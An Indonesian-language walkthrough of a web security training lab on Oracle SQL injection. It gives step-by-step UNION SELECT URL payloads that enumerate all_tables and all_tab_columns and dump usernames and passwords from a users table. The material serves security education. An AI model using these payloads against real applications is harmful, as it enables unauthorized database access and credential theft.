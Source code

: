# SQL Injection Attack: Listing the Database Contents on Oracle

Lab ini mengandung kerentanannya dalam SQL injection pada filter kategori produk. Hasil dari query dikembalikan dalam respons aplikasi, sehingga Anda dapat menggunakan serangan UNION untuk mengambil data dari tabel lain.

Aplikasi ini memiliki fungsi login, dan database berisi sebuah tabel yang menyimpan nama pengguna dan kata sandi. Anda perlu menentukan nama tabel ini dan kolom yang ada di dalamnya, lalu mengambil isi tabel untuk mendapatkan nama pengguna dan kata sandi semua pengguna.

Untuk menyelesaikan lab ini, login sebagai pengguna administrator.

### **Petunjuk**
Pada database Oracle, setiap pernyataan SELECT harus menentukan tabel yang akan dipilih. Jika serangan UNION SELECT Anda tidak mengambil data dari tabel, Anda tetap perlu menambahkan kata kunci `FROM` yang diikuti oleh tabel yang valid.

Tabel bawaan di Oracle yang dapat digunakan adalah `dual`. Contoh: `UNION SELECT 'abc' FROM dual`.

---

### **Langkah-langkah Melakukan Serangan**

#### **Langkah 1: Menyuntikkan Payload untuk Menampilkan Data**
Pertama, kita dapat mengonfirmasi jumlah kolom dalam query dengan menggunakan payload berikut:
```
/filter?category=Pets'--
```
Query ini mungkin menghasilkan dua kolom: `description` dan `content`.

#### **Langkah 2: Menyusun Serangan UNION untuk Menampilkan Tabel**
Karena kita menggunakan Oracle, kita harus menyertakan `FROM dual` dalam serangan UNION. Untuk menampilkan nama tabel, kita dapat menyuntikkan:
```
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
```
Ini akan menghasilkan daftar tabel dalam database.

#### **Langkah 3: Menampilkan Kolom dalam Tabel**
Setelah menemukan tabel `USERS_XWRQEE`, kita bisa mengetahui kolom yang ada di dalamnya dengan menyuntikkan:
```
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name+='USERS_XWRQEE'--
```
Ini akan menampilkan nama kolom dalam tabel `USERS_XWRQEE`.

#### **Langkah 4: Menampilkan Konten Tabel**
Setelah mengetahui kolom yang ada di dalam tabel `USERS_XWRQEE`, kita bisa menampilkan username dan password dengan payload berikut:
```
/filter?category=Pets'+union+all+select+USERNAME_KIWRQE,PASSWORD_OCABHB+from+USERS_XWRQEE--
```

---

### **Referensi**

- [Examining the Database Using SQL Injection](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Ilustrasi**

#### **Tampilan Awal (Deskripsi dan Konten Postingan)**:
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/1.png)

#### **Menampilkan Daftar Tabel (all_tables)**:
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/2.png)

#### **Menampilkan Kolom dalam Tabel `USERS_XWRQEE`**:
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/3.png)

#### **Menampilkan Konten Tabel (username dan password)**:
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/4.png)
